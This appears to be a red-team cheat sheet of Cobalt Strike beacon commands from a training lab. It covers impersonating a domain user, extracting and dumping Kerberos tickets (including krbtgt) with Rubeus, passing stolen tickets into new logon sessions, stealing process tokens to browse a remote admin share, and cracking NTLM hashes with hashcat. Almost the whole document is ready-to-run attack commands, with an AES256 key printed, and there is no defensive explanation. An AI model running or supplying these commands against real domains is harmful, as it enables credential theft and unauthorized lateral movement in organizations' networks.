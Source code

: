 ###### <font style="color:#00b3ff">Create new logon session and transfer the TGT</font> 
```
beacon> make_token DEV\jking DummyPass

PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\jkingTGT.kirbi", [System.Convert]::FromBase64String("[...ticket...]"))

root@kali:~# echo -en "[...ticket...]" | base64 -d > jkingTGT.kirbi

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\jkingTGT.kirbi
beacon> ls \\srv-2\c$
```

###### <font style="color:#00b3ff">If you're in an elevated context, Rubeus can shorten some of these steps</font> 
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jking /domain:dev.cyberbotic.io /aes256:a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1 /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe

beacon> steal_token 3044
beacon> ls \\srv-2\c$
```

###### <font style="color:#00b3ff">Look for TGT in all logon session on the machine (if admin privs)</font> 
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe triage
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe dump /service:krbtgt /luid:0x462eb /nowrap
```

###### <font style="color:#00b3ff">Create a sacrificial logon session with createnetonly and take note of both the new LUID and ProcessID</font> 
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
```

###### <font style="color:#00b3ff">Now use ptt to pass the extracted TGT into the sacrificial logon session using the /luid flag</font> 
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe ptt /luid:0x92a8c /ticket:[...base64-ticket...]
beacon> steal_token 4872
beacon> ls \\srv-2\c$
```

###### <font style="color:#00b3ff">Hashcat crack NTLM</font> 
```
hashcat.exe -a 0 -m 1000 C:\Temp\ntlm.txt D:\Tools\rockyou.txt
```
